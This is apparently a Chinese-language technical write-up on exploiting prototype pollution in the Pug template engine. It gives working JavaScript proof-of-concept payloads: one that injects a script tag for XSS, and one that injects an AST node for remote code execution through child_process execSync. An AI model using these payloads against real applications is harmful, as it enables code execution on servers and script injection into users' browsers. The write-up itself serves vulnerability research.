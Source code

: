 如果某处存在原型链污染漏洞，使得

```js
Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};
```

那么 `ast.block` 就会访问到 `ast.__proto__.block` ，即`Object.prototype.block`  的属性

此时代码输出结果，导致了XSS

```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```


 RCE

我们知道pug本质上是将一段代码，如 `h1 =msg` 编译为一段js代码，背后其实就是生成语法树+ `new Function` 

因此如果能通过AST Injection插入节点，并使之成为代码，即可达到远程代码执行的目的。

刚好pug中就有如下代码：

```js
// /node_modules/pug-code-gen/index.js
  
if (debug && node.debug !== false && node.type !== 'Block') {  
    if (node.line) {  
        var js = ';pug_debug_line = ' + node.line;  
        if (node.filename)  
            js += ';pug_debug_filename = ' + stringify(node.filename);  
        this.buf.push(js + ';');  
    }  
}  
```

那么我们通过  AST Injection + Prototype Pollution 即可实现RCE

```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","line":`console.log(process.mainModule.require('child_process').execSync('id').toString())`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html);

```
